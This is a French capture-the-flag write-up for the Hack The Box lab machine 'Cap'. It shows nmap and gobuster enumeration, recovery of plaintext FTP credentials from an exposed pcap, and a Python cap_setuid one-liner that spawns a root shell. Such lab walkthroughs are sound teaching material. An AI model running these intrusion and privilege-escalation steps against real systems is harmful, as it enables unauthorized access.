 # Enumération de port

nmap cap.htb -sV -p-

21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn

# Web 

Le site Web propose 4 interface: 
- Dashboard : Un tableau d'affichage avec des données relatives à la sécurité 
- Security Snapshot : Une interface permettant de télécharger un pcap des dernière 5 secondes 
- IP Config : Configuration IP de la machine
- Network Status : Etat des différentes connexion (en écoute, établis, ...)

## Enumération Web 

    gobuster dir -u http://cap.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt 

```
/data                 (Status: 302) [Size: 208] [--> http://cap.htb/]
/ip                   (Status: 200) [Size: 17447]                    
/netstat              (Status: 200) [Size: 30656]                    
/capture              (Status: 302) [Size: 220] [--> http://cap.htb/data/2]
```

### Enumération des possibles pcap 

    gobuster dir -u http://cap.htb/data/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --wildcard -b 302

Grâce à cet énumération je me rend compte qu'il existe une capture que je n'avais pas encore analysé: 0.pcap

    http://cap.htb/data/0

## Analyse de la capture

Je vois qu'il y a du trafic FTP et je décide donc de l'analyser (clic droit > Suivre le flux TPC).

Je trouve alors des identifiants:

    nathan:Buck3tH4TF0RM3!

Ces identifiants permettent de se connecter via ftp et SSH. 

# Escalade de privilège

Après avoir cherché un moment, le nom de la box (cap) nous fais penser aux capabilities. 
Un article décrit comment cela fonctionne et comment faire l'escalade: 

	https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/

Nous concernant:
	getcap -r / 2>/dev/null

Nous donne:

```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

```

python3.8 possède la capabilite setuid, lui permettant de changer l'uid (on peut donc passer de l'uid 1001 à l'uid 0; cf: commande **id**) 

	python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
